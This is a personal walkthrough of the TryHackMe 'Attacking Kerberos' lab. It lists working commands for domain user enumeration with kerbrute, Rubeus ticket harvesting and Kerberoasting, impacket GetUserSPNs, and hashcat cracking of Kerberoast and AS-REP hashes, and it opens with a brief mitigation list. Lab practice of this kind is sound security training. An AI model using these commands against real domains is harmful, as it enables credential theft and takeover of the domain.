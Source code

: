 # [Attacking Kerberos](https://tryhackme.com/room/attackingkerberos)
Learn how to abuse the Kerberos Ticket Granting Service inside of a Windows Domain Controller

6/25/2022
## Summary:

- Mitigation: Have a strong password policy (hashes will take longer to crack), Don't turn off Kerberos Pre-Authentication unless it's necessary, Don't let your domain admins log onto anything except the domain controller

## Kerbrute

- First, we will use [kerbrute](https://github.com/ropnop/kerbrute/releases) to enumerate the users on the domain
- `./kerbrute_linux_amd64 userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt`
- Wordlist: https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt

![image](https://user-images.githubusercontent.com/66894542/175787532-814cf50f-6c1d-4cfa-9f23-09de67c8bb50.png)

## [Rubeus](https://github.com/GhostPack/Rubeus)
- To harvest tickets that we can use later for a pass the ticket attack, we can use the following command:
- `Rubeus.exe harvest /interval:30`

- We get both domain controller and admin tickets:

![image](https://user-images.githubusercontent.com/66894542/175787837-84266d08-5f15-443b-a694-5152a202997f.png)
![image](https://user-images.githubusercontent.com/66894542/175787958-f8005af5-ae6c-4acd-9b39-9cf7d0677845.png)


- We can also use a password spray attack that uses one password to spray across many different users:

![image](https://user-images.githubusercontent.com/66894542/175787911-624d9541-420e-4038-a8b8-a10d82d9728e.png)


## Kerberoasting
- "request a service ticket for any service with a registered SPN then use that ticket to crack the service password"
- "depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account."

- `Rubeus.exe kerberoast`

![image](https://user-images.githubusercontent.com/66894542/175788374-f93b2e68-3fa5-405f-baff-1add0204d72e.png)

- Unfortunately the output has a lot of spaces so I used `sed 's/[[:space:]]//g' hash.txt` and deleted the new lines manually to get it to be one line of text (home and backspace)
- `hashcat -m 13100 -a 0 hash.txt Pass.txt`

![image](https://user-images.githubusercontent.com/66894542/175789281-fbce4710-932f-4152-ae01-ca25ca1b3a03.png)


- We can also do this remotely with impacket:
- `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.226.161 -request`

## AS-REP Roasting
`hashcat -m 18200 hash.txt Pass.txt`
![image](https://user-images.githubusercontent.com/66894542/175791160-c96c6c0d-0f82-410d-9848-11b075671732.png)


![image](https://user-images.githubusercontent.com/66894542/175791467-1f365a83-20da-4b67-8c3d-83b749d83e43.png)
